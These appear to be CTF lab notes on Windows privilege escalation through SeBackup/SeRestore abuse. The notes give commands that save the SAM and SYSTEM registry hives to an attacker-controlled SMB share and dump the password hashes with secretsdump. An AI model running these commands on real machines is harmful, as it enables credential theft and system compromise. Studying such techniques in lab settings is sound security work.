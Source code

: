 > THM{INSECURE_SVC_CONFIG}

## Abusing dangerous privileges
---
### Windows Privileges

>  [Priv2Admin](https://github.com/gtworek/Priv2Admin)

Check DACL-based access controls...etc

```shell-session
whoami /priv
```

Useful Resources:
- [Priv2Admin](https://github.com/gtworek/Priv2Admin) Github 
- Privilege Docs: https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants

### SeBackup / SeRestore

Have permission to backup the **SAM** and **SYSTEM** hashes

> Needs to start as Administrator

```bash
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

```bash
smbserver.py s . -smb2support -username s -password s

net use \\10.11.19.145\s /user:s s
reg save hklm\sam \\10.11.19.145\s\sam
reg save hklm\system \\10.11.19.145\s\system

secretsdump.py -sam sam -system system LOCAL
```

